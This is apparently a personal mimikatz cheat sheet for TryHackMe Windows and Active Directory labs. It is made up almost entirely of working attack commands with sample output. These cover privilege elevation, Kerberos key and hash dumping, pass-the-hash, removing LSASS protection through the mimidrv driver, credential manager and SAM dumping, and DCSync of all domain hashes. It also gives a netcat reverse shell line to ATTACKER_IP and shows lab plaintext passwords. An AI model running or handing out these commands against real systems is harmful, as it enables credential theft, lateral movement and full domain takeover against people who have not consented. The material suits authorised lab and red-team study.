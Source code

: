 
### Required:
- NT AUTHORITY SYSTEM priveleges
- mimikatz binary on the system (location: `/usr/share/mimikatz`)

### Setting up
Do this before any of the next options
```
privilege::deubg    // NOTE: only follow through if response is "[20] OK", otherwise (when it throws an error) commands will run but not work correctly.
// Possible error: ERROR kuhl_m_privilege_simple ; RtlAdjustPrivilege (20) c0000061 --> not ran as admin

token::elevate      // Impersonates admin token
```

### Dumping kerberos keys + pass the key
(pass the key is also called "Overpass the hash")
```
sekurlsa::ekeys
token::revert                                                                 // required for passing the hash
sekurlsa::pth /user:USER /domain:DOMAIN /rc4:RC4_HASH /run:"COMMAND"          // With RC4 hash
sekurlsa::pth /user:USER /domain:DOMAIN /aes128:AES128_HASH /run:"COMMAND"    // With AES128 hash
sekurlsa::pth /user:USER /domain:DOMAIN /aes256:AES256_HASH /run:"COMMAND"    // With AES256 hash
```
Note: if you have `nc64.exe` on the system, use the following payload for a reverse shell:
```
c:\Windows\Temp\nc64.exe -e cmd.exe ATTACKER_IP ATTACKER_PORT
```
Note 2: because the "credentials" are injected after you've passed the key, if `winrs.exe` is available, you can use it without giving credentials:
```
winrs.exe -r:THMIIS.za.tryhackme.com cmd      // Spawns a shell on the THMIIS machine of the za.tryhackme.md domain.
```


### Dumping logonpasswords / handling "ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)"
```
mimikatz # sekurlsa::logonpasswords  
// If this gives the "ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)"
// When you get this error, it means the LSASS is protected. You need the "mimidrv.sys" for this. (included in the directory)

mimikatz # !+        
// Loads the mimidrv
Expected output:
"
[*] 'mimidrv' service not present
[+] 'mimidrv' service successfully registered
[+] 'mimidrv' service ACL to everyone
[+] 'mimidrv' service started
"
mimikatz # !processprotect /process:lsass.exe /remove
// Removes the protected state from the LSASS
Expected output:
"
Process : lsass.exe
PID 528 -> 00/00 [0-0-0]
"
mimikatz # sekurlsa::logonpasswords  
// It should work now.
```

### handling "ERROR kuhl_m_sekurlsa_acquireLSA ; Logon list"
Make sure to use the correct architecture Mimikatz (`win64`/`win32`)

### General SAM passwords (local accounts)
```
mimikatz # lsadump::sam
```
Note: Any hashes can be used to pass to SMBClient (including Administrator hashes, combined with `-U Administrator`)

### Windows credential manager
```
sekurlsa::credman  // Dumps all windows credential manager credentials. (saved windows credentials)
```
This will get most credentials, but not the Web credentials. for these, use `Get-WebCredentials.ps1` (you can check if they exist using `vaultcmd /listcreds:"Web Credentials" /all`)
#### Example output
```
PS C:\Tools\Mimikatz> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 May 19 2020 00:48:59
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

736     {0;000003e7} 1 D 26914          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !
 * Process Token : {0;0025ebf6} 2 F 4320524     THM\thm S-1-5-21-1966530601-3185510712-10604624-1114    (16g,26p)       Primary
 * Thread Token  : {0;000003e7} 1 D 4369062     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)

mimikatz # sekurlsa::credman

Authentication Id : 0 ; 34477 (00000000:000086ad)
Session           : Interactive from 0
User Name         : UMFD-0
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 8/11/2023 11:29:59 AM
SID               : S-1-5-96-0-0
        credman :

Authentication Id : 0 ; 31779 (00000000:00007c23)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 8/11/2023 11:29:48 AM
SID               :
        credman :

Authentication Id : 0 ; 2485238 (00000000:0025ebf6)
Session           : RemoteInteractive from 2
User Name         : thm
Domain            : THM
Logon Server      : CREDS-HARVESTIN
Logon Time        : 8/11/2023 11:44:59 AM
SID               : S-1-5-21-1966530601-3185510712-10604624-1114
        credman :
         [00000000]
         * Username : thm
         * Domain   : 10.10.237.226
         * Password : jfxKruLkkxoPjwe3
         [00000001]
         * Username : thm.red\thm-local
         * Domain   : thm.red\thm-local
         * Password : Passw0rd123

Authentication Id : 0 ; 2454892 (00000000:0025756c)
Session           : Interactive from 2
User Name         : DWM-2
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 8/11/2023 11:44:57 AM
SID               : S-1-5-90-0-2
```

### Active Directory DCSync attack
###### Required permissions: Domain Replication permissions (Domain Controller / Domain Administrator)
To dump one user, use:
```
privilege::elevate
lsadump::dcsync /domain:DOMAIN /user:USERNAME@DOMAIN                // Note: the ERROR_NOT_UNIQUE error means the DOMAIN name isn't specified
```

To dump everything:
```
privilege::elevate
log dcdump.txt
lsadump::dcsync /domain:DOMAIN /all
```
